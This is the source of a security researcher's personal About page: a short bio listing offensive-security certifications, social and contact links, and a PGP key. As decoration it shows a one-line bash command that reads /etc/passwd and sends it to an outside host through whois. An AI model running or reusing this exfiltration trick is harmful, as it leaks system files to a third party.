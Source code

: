```yaml
---
layout: page
title: About
description: ""
---
```


![](img/laptop.jpeg)

```bash
$ /usr/bin/whois -h tokyoneon.host -p 80 "$(cat /etc/passwd)"
```

Tokyoneon is a certified red team operator with over one-hundred offensive security publications as well as experience exploiting weaknesses in web applications and vulnerabilities in modern infrastructure. eCPPT / eWPTX / OSCP / OSWP / PenTest+ / CySA+ / Security+

---

##### Contact / Social

- GitHub: [https://github.com/tokyoneon/](https://github.com/tokyoneon/)
- Varonis: [https://www.varonis.com/blog/author/tokyoneon/](https://www.varonis.com/blog/author/tokyoneon/)
- Twitter: [https://twitter.com/tokyoneon_](https://twitter.com/tokyoneon_)
- WonderHowTo: [https://creator.wonderhowto.com/tokyoneon/](https://creator.wonderhowto.com/tokyoneon/)
- Hackthebox: [https://www.hackthebox.eu/home/users/profile/188866](https://www.hackthebox.eu/home/users/profile/188866)
- Keybase: [https://keybase.io/tokyoneon](https://keybase.io/tokyoneon)
- Email: tokyoneon@pm.me

```
pub   rsa4096/C43253B8CE95B841 2017-10-27 [SC] [expires: 2021-10-28]
      Key fingerprint = 94BF C36E A65D 8973 30D6  6199 C432 53B8 CE95 B841
uid                 [ultimate] tokyoneon (twitter.com/tokyoneon_) <tokyoneon@pm.me>
sub   rsa4096/8518FBA61B67CBE6 2017-10-27 [E] [expires: 2021-10-28]
```

---
